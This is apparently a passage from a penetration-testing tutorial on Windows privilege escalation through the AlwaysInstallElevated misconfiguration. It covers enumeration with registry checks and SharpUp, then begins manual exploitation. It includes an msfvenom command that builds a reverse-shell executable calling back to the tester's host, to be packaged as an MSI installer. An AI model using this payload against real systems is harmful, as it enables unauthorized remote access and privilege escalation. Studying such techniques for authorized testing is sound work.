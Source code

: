 Outcome:

![AlwaysInstallElevated-Manual-Enumeration](/Pictures/AlwaysInstallElevated-Manual-Enumeration.png)

:information_source: If either command returns a value of 1, it indicates a potential vulnerability, enabling non-administrative users to install software with elevated privileges. 

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `AlwaysInstallElevated` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit AlwaysInstallElevated
```

Outcome:

![AlwaysInstallElevated-SharpUp](/Pictures/AlwaysInstallElevated-SharpUp.png)

:information_source: Moreover, you can use `SharpUp.exe audit` to perform a comprehensive enumeration of all misconfigurations vulnerabilities on the specified machine.

## Exploitation

### Manual Exploitation

:information_source: In order to create a MSI file with Visual Studio, you should have pre-installed the extension named **Mictosoft Visual Studio Installer Projects 2022**.

Open an existing random project-> go to **Extensions** tab -> **Manage extensions** in Visual Studio. Go to the Online section, look for the extension, and download it. After successfully downloading, reopen Visual Studio.

![Add-Exetnsion-In-Visual-Studio](/Pictures/Add-Exetension-Visula-Studio.png)

The installation will be scheduled after you close Visual Studio. When you reopen it, the extension will be ready to use.

:warning: If the extension is already pre-installed, please disregard the above steps.

1) Use msfvenom to generate a malicious executable (exe) file:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > nickvourd.exe
```

2) Open Visual studio, select **Create a new project** and type **installer** into search box. Select the **Setup Wizard** project and click **Next**:

![Visual-Studio-MSI-1](/Pictures/Visual-Studio-MSI-1.png)

3) Provide the project with a name, for example, **NCVInstaller**. Choose a location, for example, **C:\Payloads**, opt for **placing the solution and project in the same directory**, and then click on **Create**:
